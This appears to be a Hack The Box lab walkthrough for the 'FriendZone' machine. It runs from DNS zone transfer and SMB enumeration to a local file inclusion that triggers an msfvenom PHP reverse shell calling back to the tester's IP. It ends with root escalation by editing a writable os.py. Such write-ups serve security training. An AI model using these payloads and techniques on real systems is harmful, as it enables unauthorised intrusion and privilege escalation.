 # FriendZone

FriendZone is a easy HTB lab that focuses on DNS enumeration, injection payloads and privilege escalation. In this walkthrough, we will go over the process of exploiting the services and gaining access to the root user.

<!-- toc -->

### Recon
The first step in any penetration testing process is reconnaissance. We can start by running nmap scan on the target machine to identify open ports and services.

```
$ sudo nmap -p- -sV -sC 10.129.41.205

Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-10 22:44 GMT
Nmap scan report for 10.129.41.205
Host is up (0.092s latency).
Not shown: 65528 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a96824bc971f1e54a58045e74cd9aaa0 (RSA)
|   256 e5440146ee7abb7ce91acb14999e2b8e (ECDSA)
|_  256 004e1a4f33e8a0de86a6e42a5f84612b (ED25519)
53/tcp  open  domain      ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.11.3-1ubuntu1.2-Ubuntu
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Friend Zone Escape software
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open  ssl/http    Apache httpd 2.4.29
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO
| Not valid before: 2018-10-05T21:02:30
|_Not valid after:  2018-11-04T21:02:30
|_http-title: 404 Not Found
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Hosts: FRIENDZONE, 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -40m00s, deviation: 1h09m16s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-01-10T22:46:26
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: friendzone
|   NetBIOS computer name: FRIENDZONE\x00
|   Domain name: \x00
|   FQDN: friendzone
|_  System time: 2024-01-11T00:46:26+02:00
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: FRIENDZONE, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 126.91 seconds
```

Also from enumerating the website, we got following email `info@friendzoneportal.red` from the website.

Based on this and the nmap output, let's check we can get more domains with zone transfer.
```
$ dig axfr friendzone.red @10.129.41.205

; <<>> DiG 9.18.12-1~bpo11+1-Debian <<>> axfr friendzone.red @10.129.41.205
;; global options: +cmd
friendzone.red.		604800	IN	SOA	localhost. root.localhost. 2 604800 86400 2419200 604800
friendzone.red.		604800	IN	AAAA	::1
friendzone.red.		604800	IN	NS	localhost.
friendzone.red.		604800	IN	A	127.0.0.1
administrator1.friendzone.red. 604800 IN A	127.0.0.1
hr.friendzone.red.	604800	IN	A	127.0.0.1
uploads.friendzone.red.	604800	IN	A	127.0.0.1
friendzone.red.		604800	IN	SOA	localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 89 msec
;; SERVER: 10.129.41.205#53(10.129.41.205) (TCP)
;; WHEN: Wed Jan 10 22:57:36 GMT 2024
;; XFR size: 8 records (messages 1, bytes 289)
```

Adding new domains found to `/etc/hosts`.
```
sudo tee --append /etc/hosts <<< "10.129.41.205 uploads.friendzone.red hr.friendzone.red administrator1.friendzone.red friendzone.red"
```

Enumerating the SMB shares:
```
IP=10.129.41.205;
$ sudo crackmapexec smb $IP -u '' -p '' --shares;

SMB         10.129.41.205   445    FRIENDZONE       [*] Windows 6.1 (name:FRIENDZONE) (domain:) (signing:False) (SMBv1:True)
SMB         10.129.41.205   445    FRIENDZONE       [+] \: 
SMB         10.129.41.205   445    FRIENDZONE       [+] Enumerated shares
SMB         10.129.41.205   445    FRIENDZONE       Share           Permissions     Remark
SMB         10.129.41.205   445    FRIENDZONE       -----           -----------     ------
SMB         10.129.41.205   445    FRIENDZONE       print$                          Printer Drivers
SMB         10.129.41.205   445    FRIENDZONE       Files                           FriendZone Samba Server Files /etc/Files
SMB         10.129.41.205   445    FRIENDZONE       general         READ            FriendZone Samba Server Files
SMB         10.129.41.205   445    FRIENDZONE       Development     READ,WRITE      FriendZone Samba Server Files
SMB         10.129.41.205   445    FRIENDZONE       IPC$                            IPC Service (FriendZone server (Samba, Ubuntu))
```

Reading the data present in `general` SMB share.
```
$ sudo smbclient -N \\\\$IP\\general -U '';
smb: \> get creds.txt
```

Reading the `creds.txt` from the SMB share.
```
$ cat creds.txt 
creds for the admin THING:

admin:WORKWORKH*********@#
```

`https://administrator1.friendzone.red/` has login screen where we can use this credentials. After that we find different urls but finally we got injection using https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=timestamp and https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=login.

### User

Preparing the reverse shell that we can put in the Development SMB which we have write access on.

```
$ msfvenom -p php/reverse_php LHOST=10.10.14.140 LPORT=4444 -f raw > rev_shell.php

$ sudo smbclient -N \\\\10.129.41.234\\development -U 'admin%WORKWORKH*********@#';
smb> put rev_shell.php
```
Opening the pages https://administrator1.friendzone.red/dashboard.php?image_id=../../../Development/c.jpg&pagename=/etc/Development/rev_shell gives reverse shell.

```
$ nc -lvnp 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.41.234.
Ncat: Connection from 10.129.41.234:52164.
id   
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Enumerating the machine and we get the following information available to us in conf file:
```
$ cat mysql_data.conf

for development process this is the mysql creds for user friend
db_user=friend
db_pass=*********!0.213$
db_name=FZ
```

Logging in with credentials provided and getting the user flag:
```
$ ssh friend@10.129.41.234
*********!0.213$

$ cat user.txt
~~~~~~~~~~~~FLAG~~~~~~~~~~~~
```

### Privilege Escalation

Investigating using `pspy`, we can find that root is actually invoking the `reporter.py` file.

```
2024/01/11 05:00:01 CMD: UID=0     PID=17332  | /usr/bin/python /opt/server_admin/reporter.py 
2024/01/11 05:00:01 CMD: UID=0     PID=17331  | /bin/sh -c /opt/server_admin/reporter.py 
2024/01/11 05:00:01 CMD: UID=0     PID=17330  | /usr/sbin/CRON -f 
```

using `linpeas.sh` we found that apart from the files in the share we have /usr/lib/python2.7/os.py. 

Updated the code in `/usr/lib/python2.7/os.py` to execute `system("cp /root/root.txt /home/friend/dummy.txt")`

Getting the flag:
```
~$ cat dummy.txt
~~~~~~~~~~~~FLAG~~~~~~~~~~~~
```
